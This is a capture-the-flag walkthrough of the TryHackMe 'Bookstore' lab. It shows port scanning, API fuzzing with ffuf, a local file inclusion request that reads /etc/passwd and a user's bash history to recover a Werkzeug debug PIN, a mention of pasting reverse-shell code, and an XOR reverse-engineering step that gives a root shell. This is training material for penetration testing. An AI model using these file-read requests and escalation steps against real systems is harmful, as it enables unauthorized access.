

on
TryHackMe Bookstore
Room Description:
A Beginner level box with basic web enumeration and REST API Fuzzing.
Let's start with a quick port scan.
nmap -sC -sV bookstore.thm
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| 256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_ 256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open http Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry
|_/api </p>
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
It's hosting two http servers, and the one on port 5000 has one entry
in its /robots.txt. Probably a REST API as the room description suggests. I also
went on to scan all ports to no avail.
🔗Port 80
The site on port 80 is mostly empty with a few forms that aren't connected to anything,
but after a little searching I found an interesting comment in /login.html.
curl -s bookstore.thm/login.html | grep '<!--'
...
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
I'm not sure what's mean by the debugger pin yet, but we have a username: sid.
🔗Port 5000
Nothing on the home page, let's try directory enumeration.
curl -s bookstore.thm:5000
<title>Home</title>
<h1>Foxy REST API v2.0</h1>
<p>This is a REST API for science fiction novels.</p>
ffuf -u bookstore.thm:5000/FUZZ -w $(locate -r /common.txt)
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.1.0
________________________________________________
:: Method : GET
:: URL : http://bookstore.thm:5000/FUZZ
:: Wordlist : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403
________________________________________________
api [Status: 200, Size: 825, Words: 82, Lines: 12]
console [Status: 200, Size: 1985, Words: 411, Lines: 53]
robots.txt [Status: 200, Size: 45, Words: 5, Lines: 2]
:: Progress: [4713/4713] :: Job [1/1] :: 188 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
Navigating to /console prompts us for a pin. Werkzeug must be a web console
for debugging that was left in production in this fictional scenario. Maybe the
REST API is vulnerable to LFI and we can read sid's .bash_history file.
Navigating to /api shows documentation of an endpoint called books.
curl -s bookstore.thm:5000/api | html2text
****** API Documentation ******
**** Since every good API has a documentation we have one as well! ****
***** The various routes this API currently provides are: *****
/api/v2/resources/books/all (Retrieve all books and get the output in a json format)
/api/v2/resources/books/random4 (Retrieve 4 random records)
/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)
/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)
/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)
/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
After a bunch of fuzzing and trying sqlmap with no results I thought to try changing v2 to v1.
curl -I bookstore.thm:5000/api/v1/resources/books?id=1
HTTP/1.0 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Content-Length: 237
Server: Werkzeug/0.14.1 Python/3.6.9
Date: Tue, 08 Nov 2022 21:22:52 GMT
Looks like version 1 is still up. Let's try fuzzing for parameters that aren't listed in the documentation.
ffuf -u 'http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd' -w $(locate actions-lowercase)
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.1.0
________________________________________________
:: Method : GET
:: URL : http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd
:: Wordlist : FUZZ: /usr/share/SecLists/Discovery/Web-Content/api/actions-lowercase.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403
________________________________________________
show [Status: 200, Size: 1555, Words: 9, Lines: 31]
:: Progress: [109/109] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::'
Finally a vulnerable parameter, and upon further inspection it turns out to be the LFI foreshadowed by the comment in /login.html.
curl -s 'http://bookstore.thm:5000/api/v1/resources/books?show=/home/sid/.bash_history'
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
With access to the python console we can simply paste some code from revshells.com and get a shell.
🔗Local Privilege Escalation
In sid's home dir there's a SUID binary owned by root. This must be the intended path for privilege escalation.
sid@bookstore:~$ ls -l
total 44
-r--r--r-- 1 sid sid 4635 Oct 20 2020 api.py
-r-xr-xr-x 1 sid sid 160 Oct 14 2020 api-up.sh
-rw-rw-r-- 1 sid sid 16384 Oct 19 2020 books.db
-rwsrwsr-x 1 root sid 8488 Oct 20 2020 try-harder
-r--r----- 1 sid sid 33 Oct 15 2020 user.txt
What does it do?
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
1337
Incorrect Try Harder
Seems like a reverse engineering challenge. I tried strings, ltrace, and strace before copying it to my machine,
dropping it into IDA, and generating some C pseudocode.
The germane part is this:
v6 = 23987;
scanf("%d", &v5);
v7 = v6 ^ v5 ^ 0x1116;
if (v7 == 1573724660)
system("/bin/bash -p");
The ^ symbol denotes the XOR operation, which is easiest to explain visually to those unfamiliar:
1010110
XOR 1101111
-----------
0111001
The result is 0 where the operands agree and 1 where they differ.
If we assert v7 is equal to the correct value to give us a root shell,
and convert all numbers to hex, the xor expression can be rearranged to
0x1116 ^ 0x5db3 ^ 0x5dcd21f4 = v5. The reason v5 can be isolated this way
is that xor is its own inverse. Then all that's left to find the correct input
is to compute the xor of these three terms.
python -c 'print(int(0x1116) ^ int(0x5db3) ^ int(0x5dcd21f4))'
1573743953
Let's try it.
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
1573743953
root@bookstore:~#
And there we have it. This room was good practice for learning to persist when fuzzing. I especially liked the step which required
going from v2 to v1.